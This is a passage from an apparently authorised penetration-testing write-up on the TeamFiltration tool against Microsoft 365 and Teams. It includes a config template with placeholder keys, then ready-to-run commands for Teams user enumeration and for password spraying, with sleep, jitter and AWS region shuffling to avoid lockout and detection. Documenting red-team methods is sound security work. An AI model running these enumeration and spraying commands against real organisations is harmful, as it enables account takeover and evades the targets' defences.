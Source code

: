 For all the other profile options, you can just copy from the Github repo's template. "Proxy" here refers to a local/remote web proxy for debugging purposes only, for example 127.0.0.1:8080 shown here is the one commonly used by BurpSuite. It is completely optional.

```
{
     "pushoverAppKey": "",
     "pushoverUserKey": "",
     "dehashedEmail" : "",
     "dehashedApiKey": "",
     "sacrificialO365Username": "tfsacrificialuser1@domain.org",
      "sacrificialO365Passwords": "RANDOM123" , 
      "proxyEndpoint": "http://127.0.0.1:8080",
      "AWSAccessKey": "CHANGEME",
      "AWSSecretKey": "CHANGEME",
      "UserAgent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64)...",
      "AwsRegions":["us-east-1", "us-west-1", "us-west-2", "ca-central-1",...]
}
```

### User Enumeration

Refer to Flangvik's video on nuances in enumerating users with Teamfiltration, but the base options with `--validate-teams` worked well for us:

```
~/tools/TeamFiltration --config ./TFconfig_client.json --enum --usernames ./names.txt --validate-teams --outpath ./TF
```

`--outpath ~/clientA/TF` - this means the results of the enumeration is saved in a database file in the stated path, which the subsequent steps would use.

![pic5](images/pic5.png "pic5") User enum in action on an engagement.

### Password Spraying

```
~/tools/TeamFiltration --config ./TFconfig.json --outpath ./TF --spray --sleep-min 75 --sleep-max 90 --jitter 10 --shuffle-users --shuffle-regions --exclude exclude.txt --common-only
```

![pic6](images/pic6.png "pic6")
